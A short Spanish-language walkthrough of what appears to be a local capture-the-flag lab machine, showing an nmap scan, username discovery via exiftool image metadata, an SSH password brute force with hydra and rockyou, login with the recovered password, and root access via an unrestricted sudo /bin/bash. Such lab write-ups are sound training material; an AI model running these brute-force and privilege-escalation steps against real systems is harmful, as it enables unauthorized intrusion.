

Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```


Vemos que tiene una web corriendo. Vamos a ver que esconde.


Vemos que el contenido de la web es una imágen, asi que la vamos a descargar para poder analizarla. Una vez descargada, vamos a ver sus metadatos para ver si nos da alguna pista por saber donde tirar.
```
exiftool imagen.jpeg
```


Hemos podido ver que nos mustra elusuario `borazuwarah`, así que vamos a realizar un ataque de fuerza bruta para poder descifrar la password.
```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```


Vemos que nos da las claves, así que vamos a entrar al servidor por el servicio ssh.
```
ssh borazuwarah@172.17.0.2
```


Vemos que da un error controlado del servicio ssh, así que aplicaremos un comando opara solucionarlo.
```
ssh-keygen -R 172.17.0.2
```


Ahora vamos a volver a intentar entrar. Si todo lo hemos hecho no dará ningún porblema.
```
ssh borazuwarah@172.17.0.2
password: 123456
```


Vemos que hemos entrado correctamente, ahora vamos a escalar privilegios. Para ello nos vamos a intentar aprovechar de los binarios. 
```
sudo -l
```


Vemos que tenemos el binario bash con todos los permisos, entonces vamos a explotarlo.
```
sudo /bin/bash
```
